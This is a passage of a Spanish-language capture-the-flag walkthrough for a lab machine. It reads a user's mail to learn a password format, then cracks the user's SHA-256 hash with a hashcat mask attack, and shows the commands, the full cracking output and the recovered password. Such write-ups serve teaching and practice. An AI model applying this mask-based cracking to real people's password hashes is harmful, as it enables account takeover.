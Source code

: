 Encuentra un archivo llamado "susan" que puedo leer.

```shell
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root susan 625 May 14  2023 /var/mail/susan        
-rw-r----- 1 root susan 33 Apr 26 15:16 /home/susan/user.txt
```

En su contenido, se indica en base a que reglas esta creada la contraseña del usuario susan. 

```shell
susan@perfection:~$ cat /var/mail/susan      
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Antes encontré la contraseña de sussan hasheada en una base de datos. La guardo en un archivo.

```shell
cat hash abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Para romperla, usare hashcat.

```shell
hashcat -m 1400 hash -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

Al finalizar, obtengo la contraseña de susan. 

```shell
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Fri Apr 26 16:40:33 2024 (2 mins, 52 secs)
Time.Estimated...: Fri Apr 26 16:43:25 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1887.6 kH/s (0.28ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324558848/1000000000 (32.46%)
Rejected.........: 0/324558848 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_803824210
Hardware.Mon.#1..: Util: 33%
```
